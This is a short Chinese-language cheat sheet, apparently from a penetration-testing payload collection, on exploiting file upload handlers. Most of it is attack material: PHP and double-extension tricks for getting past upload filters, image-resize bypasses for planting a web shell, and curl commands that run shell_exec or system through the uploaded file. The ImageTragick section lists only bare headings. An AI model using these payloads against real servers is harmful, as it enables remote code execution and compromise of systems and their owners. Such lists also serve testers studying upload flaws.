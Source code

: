 # 上传
如果不正确处理，上传的文件可能会带来很大的风险。远程攻击者可以使用特定的文件名或mime类型发送多部件/表单数据POST请求，并执行任意代码。

## 攻击
图像的悲剧（Image Tragik）
```
HTTP Request
Reverse Shell
Touch command
```

PHP扩展
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

绕开PNG调整大小 - 上传图片并使用本地文件
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

绕开JPG调整大小 - 上传图片并使用本地文件包
```
http://localhost/test.php?c=ls
```

## 致谢
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
